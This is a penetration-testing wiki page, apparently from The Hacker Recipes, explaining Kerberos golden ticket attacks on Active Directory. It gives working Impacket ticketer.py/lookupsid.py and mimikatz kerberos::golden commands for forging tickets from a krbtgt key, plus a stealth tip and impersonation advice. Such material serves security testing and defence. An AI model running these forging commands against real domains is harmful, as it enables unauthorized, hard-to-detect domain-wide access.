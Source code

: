 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# Golden tickets

## Theory

The long-term key of the `krbtgt` account can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with [Pass-the-ticket](../ptt.md) to access any resource within the AD domain. The `krbtgt`'s key is used to encrypt the PAC. In a Golden Ticket scenario, an attacker that has knowledge of the `krbtgt` long-term key, will usually forge a PAC indicating that the user belongs to privileged groups. This PAC will be embedded in a forged TGT. The TGT will be used to request Service Tickets than will then feature the PAC presented in the TGT, hence granting lots of access to the attacker.

## Practice

> [!IMPORTANT]
> When forging tickets, before November 2021 updates, the `user-id` and `groups-ids` were useful but the `username` supplied was mostly useless. As of Nov. 2021 updates, if the `username` supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.

In order to craft a golden ticket, testers need to find the `krbtgt`'s RC4 key (i.e. NT hash) or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges through a [DCSync attack](../../credentials/dumping/dcsync.md). Because of this, golden tickets only allow lateral movement and not privilege escalation.

> [!TIP]
> Microsoft now uses AES 256 bits by default. Using this encryption algorithm (instead of giving the NThash) will be stealthier.

::: tabs

=== UNIX-like

There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```


=== Windows

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used with [`kerberos::golden`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden) for this attack.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](../ptt.md#injecting-the-ticket).

:::


> [!TIP]
> For Golden and Silver tickets, it's important to remember that, by default, [ticketer](https://github.com/SecureAuthCorp/impacket/blob/a16198c3312d8cfe25b329907b16463ea3143519/examples/ticketer.py#L740-L741) and [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-kerberos) forge tickets containing PACs that say the user belongs to some well-known administrators groups (i.e. group ids 513, 512, 520, 518, 519). There are scenarios where these groups are not enough (special machines where even Domain Admins don't have local admin rights).
> 
> In these situations, testers can specify all the groups ids when creating the ticket. However, deny ACEs could actually prevent this from working. Encountering a Deny ACE preventing domain admins to log on could be an issue when having all groups ids in the ticket, including the domain admin group id. This solution can also be reall inconvenient in domains that have lots of groups.
> 
> Another solution to this is to look for a specific user with appropriate rights to impersonate and use [GoldenCopy](https://github.com/Dramelac/GoldenCopy) to generate a command that allows to forge a ticket with specific values corresponding to the target user (sid, group ids, etc.). The values are gathered from a neo4j database.

![](<./assets/GoldenCopy.png>)

Using GoldenCopy for specific user impersonation{.caption}


## Resources

[https://en.hackndo.com/kerberos-silver-golden-tickets/](https://en.hackndo.com/kerberos-silver-golden-tickets/)

[https://adsecurity.org/?p=483](https://adsecurity.org/?p=483)